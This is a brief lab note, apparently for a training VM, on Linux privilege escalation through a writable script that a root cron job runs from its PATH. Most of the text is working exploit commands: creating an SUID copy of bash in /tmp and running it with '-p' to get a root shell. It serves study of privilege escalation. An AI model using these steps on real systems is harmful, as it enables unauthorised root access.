 [[Linux Privilege Escalation]]
**Detection**

VM

  

1. In command prompt type: **cat /etc/crontab**

2. From the output, notice the value of the “PATH” variable.

  

**Exploitation**

  

Linux VM

  

1. In command prompt type:

```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
```
2. In command prompt type:
```
 chmod +x /home/user/overwrite.sh
```

3. Wait 1 minute for the Bash script to execute.

4. In command prompt type: 
```
 /tmp/bash -p
```

6. In command prompt type: **id**